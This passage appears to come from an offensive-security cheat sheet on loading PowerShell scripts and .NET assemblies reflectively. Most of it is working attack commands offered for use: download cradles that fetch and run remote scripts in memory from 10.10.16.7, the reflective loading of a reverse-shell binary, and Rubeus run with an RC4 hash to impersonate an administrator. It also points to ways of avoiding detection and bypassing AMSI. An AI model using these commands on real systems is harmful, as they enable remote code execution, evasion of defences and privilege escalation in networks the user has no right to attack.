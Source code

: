 

### Load PowerShell script reflectively
Proxy-aware:
```powershell
IEX (New-Object Net.WebClient).DownloadString('http://10.10.16.7/PowerView.obs.ps1')
```
Non-proxy aware:
```powershell
$h=new-object -com WinHttp.WinHttpRequest.5.1;$h.open('GET','http://10.10.16.7/PowerView.obs.ps1',$false);$h.send();iex $h.responseText
```
__Note:__ Again, this will likely get flagged 🚩. For opsec-safe download cradles, check out [CradleCrafter](https://github.com/danielbohannon/Invoke-CradleCrafter)



### Load C# assembly reflectively

Ensure that the referenced class and main methods are Public before running this. Note that a process-wide AMSI bypass may be required for this, [check this out](https://s3cur3th1ssh1t.github.io/Powershell-and-the-.NET-AMSI-Interface/)

```powershell
# Download and run assembly without arguments
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.16.7/rev.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[rev.Program]::Main("".Split())

# Download and run Rubeus, with arguments
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.16.7/Rubeus.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[Rubeus.Program]::Main("s4u /user:web01$ /rc4:1d77f43d9604e79e5626c6905705801e /impersonateuser:administrator /msdsspn:cifs/file01 /ptt".Split())

# Execute a specific method from an assembly (e.g. a DLL)
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.16.7/lib.dll')
$assem = [System.Reflection.Assembly]::Load($data)
$class = $assem.GetType("ClassLibrary1.Class1")
$method = $class.GetMethod("runner")
$method.Invoke(0, $null)
```

### Load DLL assembly reflectively 

The most basic (although not very interesting) method of loading and running this code, is from disk using PowerShell:

```powershell
PS > [System.Reflection.Assembly]::LoadFile("C:\Users\IEUser\source\repos\ReflectionDemo\bin\Release\ReflectionDemo.dll")
PS > [ReflectionDemo.DemoClass]::PrintStuff()
Hello World
```

